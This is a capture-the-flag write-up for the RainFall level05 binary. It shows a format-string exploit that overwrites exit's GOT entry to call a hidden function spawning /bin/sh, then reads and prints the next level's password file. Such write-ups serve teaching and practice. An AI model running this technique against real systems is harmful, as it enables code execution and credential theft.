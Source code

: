 # level05

The program wait for an input, and print the result:

```bash
level5@RainFall:~$ ./level5 
dsad
dsad
```

By looking at the code, we can see that the program call a function f, gets input from stdin with fgets and pass the result as only parameter printf.

With "info functions", we can see that another function "o" is not called. It contains a call of system with "/bin/sh" as parameter :

```gdb
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
```

With the "loop_address.py" script, we can found the Direct Access Parameter. We can also do it manually:

```bash
level5@RainFall:~$ (python -c 'print "AAAA" + " %x" * 10') | ./level5
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078 20782520 25207825 78252078
```

We can see that our DAP is at 4th position. We need now to override the function call after `printf`. For this, we get the address of `exit` by looking at the Global Offset Table:

```bash
level5@RainFall:~$ objdump -R level5

level5:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main
```

We can now override the value at 08049838 with a format string exploit. Our address to put is 0x080484a4. We substract 4 bytes, because we will print an address before:

```bash
(gdb) p/d 0x080484a4 - 4
$1 = 134513824
```

We try to exploit:

```bash
(python -c 'print "\x38\x98\x04\x08" + "%134513824x" + "%4$n"';cat) | ./level5
...
              200
whoami
level6
cd /home/user/level6
cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
